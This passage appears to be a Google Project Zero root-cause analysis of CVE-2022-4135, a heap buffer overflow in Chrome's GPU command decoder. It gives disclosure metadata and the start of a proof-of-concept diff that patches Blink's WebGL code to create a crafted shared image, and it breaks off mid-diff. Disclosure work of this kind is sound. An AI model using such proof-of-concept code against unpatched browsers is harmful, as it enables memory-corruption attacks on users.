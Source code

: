 # CVE-2022-4135: Chrome heap buffer overflow in validating command decoder
*Sergei Glazunov, Google Project Zero*

## The Basics

**Disclosure or Patch Date:** 24 November 2022

**Product:** Google Chrome

**Advisory:** https://chromereleases.googleblog.com/2022/11/stable-channel-update-for-desktop_24.html

**Affected Versions:** pre 107.0.5304.121

**First Patched Version:** 107.0.5304.121

**Issue/Bug Report:** https://bugs.chromium.org/p/chromium/issues/detail?id=1392715

**Patch CL:** https://chromium.googlesource.com/chromium/src/+/2bd6ab1a16090fd20d422c11d794edf5c0ff6b89

**Bug-Introducing CL:** N/A

**Reporter(s):** Clement Lecigne of Google's Threat Analysis Group

## The Code

**Proof-of-concept:** 

*repro.diff*
```
diff --git a/third_party/blink/renderer/modules/webgl/webgl_rendering_context_base.cc b/third_party/blink/renderer/modules/webgl/webgl_rendering_context_base.cc
index 4441b31c8802c..db0b078fc13f7 100644
--- a/third_party/blink/renderer/modules/webgl/webgl_rendering_context_base.cc
+++ b/third_party/blink/renderer/modules/webgl/webgl_rendering_context_base.cc
@@ -135,6 +135,11 @@
 #include "third_party/blink/renderer/platform/wtf/text/string_utf8_adaptor.h"
 #include "ui/gfx/geometry/size.h"
 
+#include "components/viz/common/resources/resource_format.h"
+#include "gpu/command_buffer/client/shared_image_interface.h"
+#include "third_party/blink/public/platform/web_graphics_context_3d_provider.h"
+#include "third_party/blink/renderer/platform/graphics/gpu/drawing_buffer.h"
+
 // Populates parameters from texImage2D except for border, width, height, and
 // depth (which are not present for all texImage2D functions).
 #define POPULATE_TEX_IMAGE_2D_PARAMS(params) \
@@ -2112,6 +2117,35 @@ void WebGLRenderingContextBase::blendColor(GLfloat red,
                                            GLfloat green,
                                            GLfloat blue,
                                            GLfloat alpha) {
+  auto* context = drawing_buffer_->ContextGL();
+  auto* shared_image_interface =
+      drawing_buffer_->ContextProvider()->SharedImageInterface();
+
+  auto mailbox = shared_image_interface->CreateSharedImage(
+      viz::ResourceFormat::RGBA_4444, gfx::Size(32, 32),
+      gfx::ColorSpace::CreateSRGB(), kBottomLeft_GrSurfaceOrigin,
+      kPremul_SkAlphaType,
+      gpu::SHARED_IMAGE_USAGE_GLES2 |
+          gpu::SHARED_IMAGE_USAGE_GLES2_FRAMEBUFFER_HINT |
+          gpu::SHARED_IMAGE_USAGE_DISPLAY_READ,
+      gpu::kNullSurfaceHandle);
+  shared_image_interface->Flush();
```